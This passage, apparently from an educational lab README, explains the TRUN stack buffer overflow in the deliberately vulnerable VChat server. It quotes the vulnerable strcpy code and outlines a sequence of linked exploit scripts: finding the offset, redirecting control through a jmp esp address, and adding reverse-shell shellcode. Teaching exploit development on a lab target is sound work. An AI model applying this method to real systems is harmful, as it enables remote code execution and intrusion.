

6. Once you are done, exit the netcat program with ```Ctl+C``` to signal and kill the process.


### (Optional) VChat Code 
In the function ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` which is called for **all** connections made to  the **VChat** process. A message sent from the user (e.g. attacker) is put into a local buffer *RecvBuf*. The following code snippet from the ```ConnectionHandler``` function handles the **TRUN** command. This copies 3000 bytes from the *RecvBuf* into another buffer that has been declared *TurnBuf* if the command message contains a period. This new buffer *TurnBuf* is then passed to the function ```void Function3(char* Input)```. 

<!-- Below is a code snippet from the function ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` in the VChat source code.  -->
	```c
	// Allocate TrunBuf on the heap
	char* TrunBuf = malloc(3000);
	// Set TrunBuf to be all 0s 
	memset(TrunBuf, 0, 3000);

	// Iterate through TRUN command (Exclude "TRUN ")
	for (i = 5; i < RecvBufLen; i++) {
		// If there is a period
		if ((char)RecvBuf[i] == '.') {
			// Copy 3000 chars of RecvBuf into TrunBuf
			strncpy(TrunBuf, RecvBuf, 3000);
			// Enter function 3
			Function3(TrunBuf);
			// Stop for loop 
			break;
		}
	}
	// Zero out TurnBuf's heap memory
	memset(TrunBuf, 0, 3000);
	// Respond
	SendResult = send(Client, "TRUN COMPLETE\n", 14, 0);
	```
> This ( ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)```) is not where the overflow occurs!


In ```Function3(char* Input)```, the C [standard library function](https://man7.org/linux/man-pages/man3/strcpy.3.html) ```strcpy(char* dst, char* src)``` is used to copy the passed parameter *Input* (i.e. TurnBuf) into a local buffer Buffer2S[2000]. Unlike the C [standard library function](https://cplusplus.com/reference/cstring/strncpy/) ```strncpy(char*,char*,size_t)``` used in the ```ConnectionHandler(LPVOID CSocket)``` which copies only a specified number of characters to the destination buffer. The ```strcpy(char* dst, char* src)``` function does not perform any **bound checks** when copying data from the **source** to **destination** buffer, it will stop copying once every byte up to and including a **null terminator** (`\0`) from the **source** buffer has been copied contiguously to the **destination** buffer. This means if the **source** contains more characters than the **destination** buffer can hold, ```strcpy(char*,char*)``` will continue to copy them even past the bounds of the destination object. The location of the **destination** object being allocated on the *stack* (locally defined) or on the *heap* (dynamically defined) does affect the basic overflow concept but would modify the exploit; in this case the **destination** is created *locally* on the stack. This object being located on the stack allows us to **overflow** the bounds and **overwrite** the return address which is located on the stack. This allows us to take control of the program. 

```cpp
void Function3(char *Input) {
	// Space for 2000 characters in the destination buffer 
	char Buffer2S[2000];	
	// Copies the Input buffer (which contains up to 3000 characters) into the buffer with space for 2000 chars.
	strcpy(Buffer2S, Input);
}
```
> This is where the overflow occurs!

## Test code
1. [exploit0.py](SourceCode/exploit1.py): Sends a reproduction of the fuzzed message that crashed the server.
2. [exploit1.py](SourceCode/exploit1.py): Sends a cyclic pattern of chars to identify the offset used to modify the memory at the address we need to inject to control EIP.
3. [exploit2.py](SourceCode/exploit2.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a different value (`B`) so we can ensure the offset we discovered is correct.
4. [exploit3.py](SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a `jmp esp` instruction. This is used to modify the control flow, and test that our address for `jmp esp` is correct.
5. [exploit4.py](SourceCode/exploit4.py): Adding the reverse shell code to the payload (Modifies [exploit3.py](SourceCode/exploit3.py)).
6. [exploit5.py](SourceCode/exploit5.py): Adding the reverse shell code to the payload without the last set of  padding, which is really not needed.


<!-- 
## Notes
1. If the test setting described in [SystemSetup](../SystemSetup/README.md) is used, the python attacking code works directly with no need of change other than the shellcode being replaced so the correct IP is used.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, since essfunc.dll does not use ASLR there is no need of changing the address of the *jmp esp* instruction since it will not change even when Windows 10 reboots.
-->

<!--  -->

## References
[1] https://stanford-cs242.github.io/f18/lectures/05-1-rust-memory-safety.html

[2] https://stackoverflow.com/questions/17601949/building-a-shared-library-using-gcc-on-linux-and-mingw-on-windows

[3] https://caiorss.github.io/C-Cpp-Notes/compiler-flags-options.html

[4] https://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html

[5] https://samsclass.info/127/proj/p18-spike.htm
